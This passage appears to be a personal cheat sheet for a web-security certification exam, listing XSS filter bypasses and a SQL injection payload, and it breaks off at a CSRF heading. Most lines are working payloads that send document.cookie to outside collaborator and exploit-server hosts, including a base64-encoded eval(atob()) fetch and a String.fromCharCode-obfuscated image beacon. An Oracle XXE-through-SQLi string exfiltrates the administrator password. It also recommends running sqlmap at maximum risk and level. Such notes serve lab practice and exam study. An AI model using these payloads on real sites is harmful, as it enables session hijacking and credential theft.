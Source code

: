 ```
\'-alert(1)//
```
Adapted:
```
\';document.location=`http://burp.oastify.com/?c=`+document.cookie;//
```
14. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped  
```
http://foo?&apos;-alert(1)-&apos;
```
15. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped  
```
${alert(1)}
```
### Bypasses:
```
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 

Can be interpreted as

</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```

```
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
"-alert``}//
"}; location=”https://BURP-COLLABORATOR-URL/?”+document.cookie; //
%22};%20location=%22https://BURP-COLLABORATOR-URL/?%22%2bdocument.cookie;%20//
```

```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```
### Possibly helpful to steal cookie
```
"-(window["document"]["location"]="https://exploit%2D0ac7002303d74533c0b472c9016a00f3%2Eexploit%2Dserver%2Enet/?c="+window["document"]["cookie"])-"  
OR my variant:  
"-(window["location"]="http://umk7m0a67ilv35u5uonbj2i08rei29qy%2eoastify%2ecom/?c="+window["document"]["cookie"])}//
```
## SQL injections
If you have `Advanced Search` page on your exam, you are more likely about to get easy priv escalation.  
Also check `TrackingId` cookie  
Run `sqlmap` with risk 3 and level 5  
Also SQL injection vector could be potentially fosa
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
## CSRF